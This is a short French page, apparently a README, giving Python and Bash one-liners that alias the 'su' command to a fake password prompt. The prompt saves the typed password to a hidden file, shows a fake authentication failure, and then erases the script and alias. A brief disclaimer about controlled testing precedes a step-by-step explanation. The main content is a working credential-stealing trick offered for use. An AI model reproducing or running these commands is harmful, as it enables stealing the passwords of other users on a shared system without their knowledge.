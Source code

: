 # Python
```
echo -e "import getpass\npassword = getpass.getpass('Password: ')\nprint('su: Authentication failure')\ntxt = open('.HAHAHA','w')\ntxt.writelines(password)" > hihihi.py ; alias su="python hihihi.py ; shred -n10 hihihi.py ; rm -f hihihi.py ; unalias su "
```
# Bash
Ajoutez '$' avant le second 'OOO'
```
echo -e "\nread -p 'Password: ' -s OOO \necho OOO >.HAHAHA \necho '' \necho 'su: Authentication failure'" >hohoho.sh ; alias su="bash hohoho.sh ; rm -f hohoho.sh ; unalias su "
```

## ! Gardez à l'esprit que si vous effectuez des tests de sécurité, il est recommandé de le faire dans un environnement de test contrôlé et de travailler en étroite collaboration avec les propriétaires et les administrateurs du système pour éviter toute confusion ou toute interprétation erronée de vos actions. !


# Explication

* Langage de Programmation:
  * Le premier code utilise __Python__ en tant que langage de programmation pour exécuter les actions.
  * Le deuxième code utilise le __shell (bash)__ comme langage de script pour exécuter les actions.

* Capture de Mot de Passe:
  * Le premier code utilise le module Python __getpass__ pour capturer un mot de passe de manière sécurisée.
  * Le deuxième code utilise la commande shell __read__ pour capturer un mot de passe de manière sécurisée.

* Fichier de Sortie:
  * Le premier code écrit le mot de passe dans un fichier .HAHAHA en utilisant Python.
  * Le deuxième code écrit le mot de passe dans un fichier .HAHAHA en utilisant des commandes shell.

* Affichage du Message d'Échec:
  * Les deux codes affichent le message "su: Authentication failure" pour simuler un échec d'authentification.

* Alias pour la Commande su:
  * Les deux codes créent un alias pour la commande su qui exécute le script correspondant.
  * Le premier code exécute le script Python hihihi.py.
  * Le deuxième code exécute le script shell hohoho.sh.

* Suppression Sécurisée:
  * Les deux codes utilisent des commandes pour supprimer les fichiers créés après exécution.
  * Le premier code utilise les commandes shred et rm pour supprimer le fichier Python.
  * Le deuxième code utilise la commande rm pour supprimer le fichier shell.
